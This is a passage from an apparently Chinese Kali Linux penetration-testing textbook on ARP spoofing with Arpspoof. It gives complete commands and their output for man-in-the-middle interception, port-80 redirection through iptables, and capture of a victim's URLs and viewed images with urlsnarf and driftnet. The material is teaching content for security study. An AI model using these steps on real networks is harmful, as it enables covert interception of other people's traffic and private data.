

9.8 Arpspoof工具
Arpspoof是一个非常好的ARP欺骗的源代码程序。它的运行不会影响整个网络的通信，该工具通过替换传输中的数据从而达到对目标的欺骗。本节将介绍Arpspoof工具的 使用。
9.8.1 URL流量操纵攻击
URL流量操作非常类似于中间人攻击，通过目标主机将路由流量注入到因特网。该过程将通过ARP注入实现攻击。本小节将介绍使用Arpspoof工具实现URL流量操纵攻击。使用Arpspoof工具实现URL流量操作攻击。具体操作步骤如下所示：
（1）开启路由转发功能。执行命令如下所示：
root@kali:~# echo 1 >> /proc/sys/net/ipv4/ip_forward
执行以上命令后，没有任何信息输出。
（2）启动Arpspoof注入攻击目标系统。攻击的方法是攻击者（192.168.6.102）发送ARP数据包，以欺骗网关（192.168.6.1）和目标系统（192.168.6.101）。下面首先欺骗目标系统，执行命令如下所示：
root@kali:~# arpspoof -i eth0 -t 192.168.6.101 192.168.6.1
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
输出的信息显示了攻击者向目标主机192.168.6.102发送的数据包。其中50:e5:49:eb:46:8d表示攻击者的MAC地址；19:21:3f:c3:e5表示192.168.6.101的MAC地址。当以上过程攻击成功后，目标主机192.168.6.101给网关192.168.6.1发送数据时，都将发送到攻击者192.168.6.102上。
（3）使用Arpspoof注入攻击网关。执行命令如下所示：
root@kali:~# arpspoof -i eth0 -t 192.168.6.1 192.168.6.101
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
以上输出信息显示了攻击者向网关192.168.6.1发送的数据包。当该攻击成功后，网关192.168.6.1发给目标系统192.168.6.101上的信息发送到攻击者主机192.168.6.102上。
（4）以上步骤都执行成功后，攻击者就相当于控制了网关与目标主机传输的数据。攻击者可以通过收到的数据，查看到目标系统上重要的信息。
为了验证以上的信息，下面举一个简单的例子。
【实例9-7】通过使用Wireshark抓包验证Arpspoof工具的攻击。具体操作步骤如下所示。
（1）启动Wireshark工具。在Kali Linux桌面依次选择“应用程序”|Kali Linux|Top 10 Security Tools|wireshark命令，将显示如图9.49所示的界面。

图9.49 Wireshark启动界面
（2）在该界面Start下面，选择要捕获的接口。这里选择eth0，然后单击Start按钮，将显示如图9.50所示的界面。
图9.50 抓包界面
（3）该界面可以对Wireshark进行相关设置及启动、停止和刷新数据包。
（4）在目标系统192.168.6.101上ping网关192.168.6.1。执行命令如下所示：
C:\Users\Administrator>ping 192.168.6.1
以上命令执行完后，到Kali下查看Wireshark抓取的数据包，如图9.51所示。
图9.51 捕获的数据包
（5）该界面显示了192.168.6.101与192.168.6.1之间数据传输的过程。其中传输整个过程的编号为28-33，28-30是一个请求数据包过程，31-33是目标响应数据包过程。下面详细分析捕获的数据包。
- 28：表示192.168.6.101（源）向192.168.6.1（目标）发送ping请求。
- 29：表示192.168.6.102将192.168.6.101的数据包进行转发。
- 30：表示192.168.6.102将转发后的数据包，再向192.168.6.1发送请求。
- 31：表示目标主机192.168.6.1响应192.168.6.101的请求。
- 32：表示该响应被发送到192.168.6.102上，此时该主机转发到192.168.6.1。
- 33：目标主机192.168.6.1将转发的数据发送给192.168.6.101上。
9.8.2 端口重定向攻击
端口重定向又叫端口转发或端口映射。端口重定向接收到一个端口数据包的过程（如80端口），并且重定向它的流量到不同的端口（如8080）。实现这类型攻击的好处就是可以无止境的，因为可以随着它重定向安全的端口到未加密端口，重定向流量到指定设备的一个特定端口上。本小节将介绍使用Arpspoof实现端口重定向攻击。使用Arpspoof实现端口重定向攻击。具体操作步骤如下所示。
（1）开启路由转发攻击。执行命令如下所示：
root@kali:~# echo 1 >> /proc/sys/net/ipv4/ip_forward
（2）启动Arpspoof工具注入流量到默认网络。例如，本例中的默认网关地址为192.168.6.1。执行命令如下所示：
root@kali:~# arpspoof -i eth0 192.168.6.1
在Kali Linux上执行以上命令后，没有任何输出信息。这是Kali 1.0.6上的一个bug，因为在该系统中dsniff软件包的版本是dsniff-2.4b1+debian-22。执行arpspoof命令不指定目标系统时，只有在dsniff软件包为dsniff-2.4b1+debian-21.1上才可正常运行。
（3）添加一条端口重定向的防火墙规则。执行命令如下所示：
root@kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
执行以上命令后，没有任何输出。
以上设置成功后，当用户向网关192.168.6.1的80端口发送请求时，将会被转发为8080端口发送到攻击者主机上。
9.8.3 捕获并监视无线网络数据
使用中间人攻击的方法，可以使Kali Linux操作系统处在目标主机和路由器之间。这样，用户就可以捕获来自目标主机的所有数据。本小节将介绍通过使用Arpspoof工具实施中间人攻击，进而捕获并监视无线网络数据。
（1）开启路由器转发功能。执行命令如下所示：
root@Kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
（2）使用Arpspoof命令攻击主机。执行命令如下所示：
root@kali:~# arpspoof -i eth0 -t 192.168.6.106 192.168.6.1
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
......
执行以上命令表示告诉192.168.6.106（目标主机），网关的MAC地址是00:0c:29:7a:59:75（攻击主机）。当目标主机收到该消息时，将会修改ARP缓存表中对应的网关ARP条目。执行以上命令后，不会自动停止。如果不需要攻击时，按下Ctrl+C组合键停止攻击。
（3）查看目标主机访问URL地址的信息。执行命令如下所示：
root@kali:~# urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
192.168.6.106 - - [16/Jul/2014:13:12:30 +0800] "GET http://192.168\. 6.1:1900/igd.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:30 +0800] "GET http://192.168\. 6.1:1900/l3f.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:30 +0800] "GET http://192.168\. 6.1:1900/ifc.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:33 +0800] "GET http://192.168\. 6.1:1900/ipc.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "GET http://192.168\. 6.1:1900/igd.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ipc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ifc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ipc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ifc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
以上输出的信息显示了目标主机访问互联网的信息。
（4）用户还可以使用Driftnet工具，捕获目标系统浏览过的图片。执行命令如下所示：
root@kali:~# driftnet -i eth0
执行以上命令后，将会打开一个窗口。当目标主机访问到网页中有图片时，将会在该窗口中显示。
（5）现在到目标主机上，访问互联网以产生捕获信息。例如，随便在目标主机上通过浏览器访问某个网页，攻击主机将显示如图9.52所示的界面。
图9.52 目标主机访问的图片
（6）该界面显示了目标主机上访问的所有图片。现在用户可以通过点击图9.52中的任何一张图片，该图片将被保存到Kali主机上。此时driftnet命令下，将会出现如下所示的信息：
root@kali:~# driftnet -i eth0
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d45c168e121f.png' as `driftnet-0.png'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d45c168e121f.png' as `driftnet-1.png'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d4ca5d888a08.jpeg' as `driftnet-2.jpeg'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d4d92a6de806.png' as `driftnet-3.png'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d4d92a6de806.png' as `driftnet-4.png'
driftnet: saving `/tmp/drifnet-YbOziq/driftnet-53c9d5351a9a9e69.png' as `driftnet-5.png'
从上面可以看到，保存了driftnet捕获到的7张图片。其文件名分别为driftnet-*.png，并且这些文件默认保存当前目录下。
（7）用户可以使用Linux自带的图像查看器查看，如图9.53所示。
图9.53 捕获的图片
（8）该界面显示的是第四张图片。用户可以通过单击“下一张”或“上一张”按钮，切换捕获到的图片。